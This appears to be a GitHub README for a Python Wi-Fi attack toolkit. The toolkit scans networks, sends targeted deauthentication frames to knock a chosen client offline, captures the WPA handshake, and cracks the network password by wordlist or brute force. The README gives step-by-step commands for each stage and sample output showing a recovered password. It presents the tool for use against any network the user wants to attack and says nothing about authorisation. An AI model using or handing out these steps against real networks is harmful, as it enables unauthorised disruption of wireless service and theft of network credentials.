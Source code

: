 ## Overview
This project is a custom-built, semi-automated toolkit for identifying nearby Wi-Fi networks and performing a targeted deauthentication attack on connected clients. It's modeled after tools like airodump-ng and aireplay-ng, but with your own Python code (using Scapy and subprocess) orchestrating the workflow.


## Workflow

1. Scan for nearby Wi-Fi Access Points (APs)

2. Extract BSSID, ESSID, and Channel information

3. Scan for connected clients on a selected AP

4. Perform a targeted deauthentication attack against a chosen client. Capture the resulting handshake passively 

5. Take passwords from a provided wordlist or bruteforce them. Match the computed MIC from guessed password and handshake fields with the MIC extracted from handshake frames.


## Pre-requisits
1. have a netword card with monitor mode support
2. install airodump-ng
```
sudo apt update
sudo apt install aircrack-ng
```

## Usage
run automate-scan.py
```
$ python3 automate-scan.py
```
It will scan and list all available WiFi networks. When prompted, input the name of the network you want to attack.
Then all the clients connected on that network will be listed. Select the index of the client you want to perform the deauthentication attack.
You will see an output line like this
```
[🛑] Suggested Deauth Command:
sudo ./venv/bin/python3 custom-deauth.py <AP_MAC> <Client_MAC> <interface> <count>
```
Copy this command and run in another terminal.
When that client is successfully disconnected and reconnected, stop frame capturing on the automate-scan.py. The final capture will be saved to "deauth-capture-01.cap". 
To crack password using wordlist
```
$ python3 wpa_cracker.py deauth-capture-01.cap --passlist_file <custom-wordlist-file>
```
To crack password using bruteforce
```
$ python3 wpa_cracker.py deauth-capture-01.cap --bruteforce --min_len 8 --max_len 10
```
You will see output like this
```
[*] Starting password cracking...
[-] Tried: 12341234
[-] Tried: 12345678
[-] Tried: 123432344443
[-] Tried: jkdhgfdskjh
[-] Tried: mvnxnvnhfkgvjhskjhj
[-] Tried: jhchxh
[✓] Password found: supersecretpassword
```